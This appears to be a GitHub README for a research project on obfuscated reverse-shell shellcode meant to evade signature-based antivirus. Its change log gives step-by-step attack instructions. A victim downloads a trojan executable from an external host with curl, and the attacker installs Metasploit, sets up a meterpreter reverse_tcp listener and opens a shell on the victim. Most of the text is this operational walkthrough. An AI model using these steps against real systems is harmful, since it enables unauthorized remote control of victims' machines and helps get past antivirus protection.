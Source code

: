 # reverse-shell
Obfuscated reverse-shell shellcode aimed to bypass signature-based antivirus




# Change Log:

  10/14/2024
    Russell:
      - created GitHub repo and uploaded the research paper as well as our proposal.
      - created and uploaded reverse_tcp.exe via msfvenom which connects to attacker's IP (Windows antivirus detects it immediately and does not allow execution)

      
     To download the trojan as a victim:
            $curl -O http://bigbadcyborg.com/reverse_tcp.exe
            

      Attacker must have Metasploit installed in order to listen for the victim's connection on a port.  
      To download the metasploit installer:
      
      $curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
      $chmod 755 msfinstall
      $./msfinstall
      $sudo msfconsole
      

      To run listener on attackers machine:
      
      $msfconsole
      $use exploit/multi/handler
      $set PAYLOAD windows/x64/meterpreter/reverse_tcp
      $set LHOST your_ip
      $set LPORT 4444
      $exploit
      

      Once the victim has executed the reverse shell, the attacker will see "Meterpreter session 1 opened." Lastly, the
      attacker enters the following command to enter the shell of the victim:
      
      $shell



      For a video explanation watch the following youtube video:
      https://www.youtube.com/watch?v=17JontiMrWQ
      

  

    
